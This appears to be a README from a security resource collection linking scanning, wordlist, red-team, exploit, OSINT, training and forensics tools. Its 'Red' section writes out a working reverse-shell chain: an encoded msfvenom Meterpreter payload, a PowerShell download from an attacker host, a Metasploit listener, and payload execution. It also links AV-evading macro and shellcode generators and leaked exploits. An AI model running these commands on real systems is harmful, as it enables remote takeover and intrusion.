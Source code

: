 # TI-Collection
Wide collection of tools, links, informations

## Tools & Scripts
### Scanning
**Nmap Script Collection**
- https://github.com/emadshanab/Nmap-NSE-scripts-collection

### Lists
**Web**
- https://github.com/emadshanab/Huge_DIR_wordlist
- https://github.com/emadshanab/subs_all
- https://github.com/emadshanab/WordLists-20111129
- http://wordlists.assetnote.io/

### Red
**Online Reverse Shell generator**
- https://www.revshells.com/


*Create Payload with MSFVenom*
  msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

*Upload Payload via PS & Fileserver*
  powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"

*Open Meterpreter listener*
  use exploit/multi/handler 
  set PAYLOAD windows/meterpreter/reverse_tcp 
  set LHOST your-ip 
  set LPORT listening-port 
  run
  
* Start Process*
  Start-Process "shell-name.exe"
  
  *Spawn webserver*
  python3 -m http.server [PORT]

**Don't kill my cat** 
A tool that generates obfuscated shellcode that is stored inside of polyglot images. 
- https://github.com/Mr-Un1k0d3r/DKMC


**Malicious Macro Generator Utility**
Simple utility design to generate obfuscated macro that also include a AV / Sandboxes escape mechanism.
- https://github.com/Mr-Un1k0d3r/MaliciousMacroGenerator

**Information about EDRs that can be useful during red team exercise like hooked DLLs etc.**
- https://github.com/Mr-Un1k0d3r/EDRs

**Vulnx** is An Intelligent Bot Auto Shell Injector that detects vulnerabilities in multiple types of Cms
- https://github.com/anouarbensaad/vulnx

**Privilege Escalations**
  - Windows: https://lolbas-project.github.io/
  - Linux: https://gtfobins.github.io/

## PoCs & Exploits
**ShadowBroker Exploits & Tools**
- https://github.com/misterch0c/shadowbroker

**Wifi Fragattacks**
- https://github.com/vanhoefm/fragattacks

## OSINT
The **xCyclopedia** project attempts to document all executable binaries (and eventually scripts) that reside on a typical operating system. It provides a web page to view the data as well as a machine-readable format (JSON and CSV) that can be immediately usable in other systems such as SIEMs to enrich observed executions with contextual data.
- https://strontic.github.io/xcyclopedia/

**CyberChef**
- https://gchq.github.io/CyberChef/

**CyberChef Recipes**
- https://github.com/mattnotmax/cyberchef-recipes

# Trainings & Education

## Challenges
**CTFchallenge** is a collection of 12 vulnerable web applications, each one has its own realistic infrastructure built over several subdomains containing vulnerabilities based on bug reports, real world experiences or vulnerabilities found in the OWASP Top 10.
- https://ctfchallenge.com/


## Trainings

- https://0xdarkvortex.dev/

## Cheat Sheets

### Privilege Escelation
Cheatsheet aimed at CTF Players and Beginners to help them understand the fundamentals of Privilege Escalation with examples.
- https://github.com/Ignitetechnologies/Privilege-Escalation

# Forensics
## Data Analytics
**PcapXray**
A Network Forensics Tool - To visualize a Packet Capture offline as a Network Diagram including device identification, highlight important communication and file extraction
- https://github.com/Srinivas11789/PcapXray

